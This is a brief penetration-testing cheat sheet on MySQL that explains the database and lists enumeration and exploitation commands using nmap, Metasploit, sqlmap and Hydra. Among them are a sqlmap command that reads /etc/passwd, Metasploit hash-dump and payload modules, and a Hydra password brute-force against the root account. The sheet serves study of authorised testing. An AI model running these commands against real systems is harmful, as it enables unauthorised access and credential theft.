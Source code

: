 ```yaml
---
tags:
  - Penetration-Testing
  - Services
---
```

## What is MySQL?
- A **relational database management system (RDBMS)** based on **Structured Query Language (SQL)**

**RDBMS** = A software or service used to create/manage databases based on a *relational model*.
- Data is organized as a **table**
- Every table related to each other's *"key factors"*

## How does MySQL work?
- Server handles all database instructions (creating/editing/accessing data)
- MySQL protocol
	1. MySQL creates a database for storing and manipulating data, defining the relationship of each table.
	2. Clients make requests by making specific statements in SQL.
	3. The server will respond to the client with whatever information has been requested.

## Enumerating MySQL
- **Nmap Scripts**
```bash
nmap -p 3306 --script mysql* <target>
```

- **Metasploit**
```bash
use auxiliary/scanner/mysql/mysql_version

use auxiliary/scanner/mysql/mysql_enum
```

- **SQLMap**
```bash
sqlmap -u "http://target.com/page?param=value" --dbms=mysql --banner --current-user --current-db --is-dba
```

## Exploiting MySQL
- **Metasploit**
```bash
use exploit/windows/mysql/mysql_payload

auxiliary/scanner/mysql/mysql_schemadump

auxiliary/scanner/mysql/mysql_hashdump
```

- **SQLMap**
```bash
sqlmap -u "http://target.com/page?param=value" --dbms=mysql --file-read=/etc/passwd
```

- **Hydra**
```bash
hydra -l root -P /path/to/password/list.txt mysql://<target>
```